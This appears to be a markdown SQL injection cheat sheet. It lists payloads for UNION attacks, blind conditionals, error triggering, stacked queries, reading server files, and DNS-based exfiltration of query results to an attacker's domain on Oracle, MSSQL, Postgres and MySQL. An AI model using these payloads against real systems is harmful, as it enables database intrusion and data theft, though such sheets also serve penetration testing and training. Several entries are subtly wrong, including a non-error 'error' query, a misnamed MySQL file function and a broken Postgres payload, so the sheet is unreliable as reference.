 # SQL Injection
## Union Attacks
**Requires knowing number of columns returned**
**Requires selected columns matching datatypes from original query**
- `UNION SELECT <COL1> FROM <TABLE>`

### Determining Column Length
- `ORDER BY <x>--` 
- `UNION SELECT NULL,[NULL,...]--`
	- Oracle - `SELECT NULL,[NULL,...] FROM DUAL--`
Repeat until unexpected behaviour occurs

## Conditionals
**Useful for blind enumeration of DB contents**
- Oracle - `SELECT CASE WHEN (<CONDITION>) THEN <TRUE> [ELSE <FALSE>] END FROM dual`
- Microsoft - `IF (<CONDITION>) <TRUE> [<FALSE>]`
- Microsoft / Postgres - `SELECT CASE WHEN (<CONDITION>) THEN <TRUE> ELSE <FALSE> END`
- MySql / MariaDB - `SELECT IF (<CONDITION>, <TRUE>, <FALSE>)`
### Fixed Conditions
- TRUE -> `OR 1=1--`

- FALSE -> `AND 1=2--`
- Error -> 
	- Oracle - `to_char(1/0)`
	- Microsoft - `1/0`
	- Postgres - `cast(1/0 as text)`
	- MySql / MariaDB - `SELECT table_name FROM information_schema.tables`

## String Concatenation
**Useful for dumping char/varchar information inside a single char/varchar column**
- Oracle / Postgres - `'<STR>'||'<ING>'`
- Microsoft - `'<STR>'+'<ING>'`
- MySQL / MariaDB - `'<STR>' '<ING>'` `CONCAT('<STR>','<ING>')`


## Joining Rows
**Useful if reflection only takes first row**
- Oracle - `listagg(<COL>, "\n")`
- Microsoft / Postgres - `string_agg(<COL>, "\n")`
- MySQL / MariaDB - `group_concat(<COL1>, ":", <COL2>, "\n")`

## Substring
- Oracle - `SUBSTR('foobar', 4, 2)` -> 'ba'
- Microsoft / Postgres / MySql / MariaDB - `SUBSTRING('foobar', 4, 2)` -> 'ba'

## Stacked Queries
- Oracle - None
- Microsoft / Postgres / MySql / MariaDB - `<QUERY1>;<QUERY2>`

## Reading Files
- Postgres (Only in data directory) - `SHOW data_directory` -> `PG_READ_FILE('<REL_PATH>')`
- MySql / MariaDB - `READ_FILE('<ABS_PATH>')`

## DNS with Data Exfiltration
- Oracle - `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(<QUERY>)||'.<DOMAIN>/"> %remote;]>'),'/l') FROM dual`
- Microsoft - `declare @p varchar(1024);set @p=(<QUERY>);exec('master..xp_dirtree "//'+@p'.<DOMAIN>/a"')`
- Postgres - `create OR replace function f() returns void as $$;declare c text; declare p text; begin; SELECT into p (<QUERY>); c := 'copy (SELECT '''') to program ''nslookup '||p||'.<DOMAIN>''';execute c;END;$$ language plpgsql security definer; SELECT ();`
- MySql / MariaDB (Windows only) - `<QUERY> INTO OUTFILE '\\\\<DOMAIN>\a'`